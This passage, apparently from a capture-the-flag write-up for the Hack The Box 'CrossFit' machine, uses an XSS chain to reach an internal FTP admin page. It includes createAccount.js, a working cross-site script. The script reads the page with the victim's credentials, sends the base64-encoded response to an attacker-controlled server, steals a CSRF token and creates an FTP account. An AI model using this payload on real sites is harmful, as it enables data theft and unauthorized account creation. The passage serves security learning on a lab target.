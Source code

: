 ```javascript
getResponse("http://ftp.crossfit.htb");
```

This return me a html code in which we can create ftp account

![ftp index.html](/assets/images/crossfit/ftp1.png)

Url of that button is : http://ftp.crossfit.htb/accounts/create
sending again our request to this url with xss.js

We got our response back and we have account adding facility

![ftp index.html](/assets/images/crossfit/ftp2.png)

Now we need to create an account by sending a post request. Thats easy just intercept your localhost request(in which you have saved the html code for /account/create) and write a javascript code for that

createAccount.js
```javascript
myhttpserver = 'http://ip/?q='
targeturl = 'http://ftp.crossfit.htb/accounts/create'
username = 'rider'
password = 'rider'

req = new XMLHttpRequest;
req.withCredentials = true;
req.onreadystatechange = function() {
    if (req.readyState == 4) {
        req2 = new XMLHttpRequest;
        req2.open('GET', myhttpserver + btoa(this.responseText), false);
        req2.send();
    }
}
req.open('GET', targeturl, false);
req.send();

regx = /token" value="(.*)"/g;
token = regx.exec(req.responseText)[1];


var params = '_token=' + token + '&username=' + username + '&pass=' + password + '&submit=submit'
req.open('POST', "http://ftp.crossfit.htb/accounts", false);
req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
req.send(params);
```
And our user created successfully
Now log in using lftp because ftp does not suppurt ssl

![ftp index.html](/assets/images/crossfit/lftp2.png)



## **Foothold**
